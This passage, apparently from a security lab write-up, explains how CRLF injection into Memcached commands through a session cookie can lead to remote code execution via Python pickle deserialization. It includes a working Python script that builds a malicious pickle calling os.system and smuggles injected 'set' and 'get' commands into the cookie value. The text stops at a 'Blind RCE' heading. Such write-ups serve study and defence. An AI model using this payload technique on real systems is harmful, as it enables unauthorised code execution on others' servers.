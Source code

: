 This allows injection of CRLF (`\r\n`) sequences into Memcached commands.

---

## Exploitation Steps

### Crafting a Malicious Cookie

The following Python script demonstrates crafting a malicious Memcached payload:

```python
import pickle, os

class RCE:
    def __init__(self, char):
        self.char = char

    def __reduce__(self):
        cmd = ("sleep 10")
        return os.system, (cmd,)

payload = pickle.dumps(RCE(''), 0)
payload_size = len(payload)

cookie = b"1\r\nset injected 0 5 "
cookie += str.encode(str(payload_size))
cookie += str.encode("\r\n")
cookie += payload
cookie += str.encode("\r\n")
cookie += str.encode("get injected")

pack = ""
for x in list(cookie):
    if x > 64:
        pack += oct(x).replace("0o", "\\")
    elif x < 8:
        pack += oct(x).replace("0o", "\\00")
    else:
        pack += oct(x).replace("0o", "\\0")

final = f"\"{pack}\""
print(final)
```

#### Key Components

1. **`__reduce__` Method**: Allows arbitrary command execution during deserialization.
2. **CRLF Injection**: Encodes CRLF as `\015\012` to inject Memcached commands.
3. **Payload Composition**: Constructs a malicious session cookie containing:
   - `set` command to inject payload.
   - `get` command to trigger deserialization.

### Blind RCE

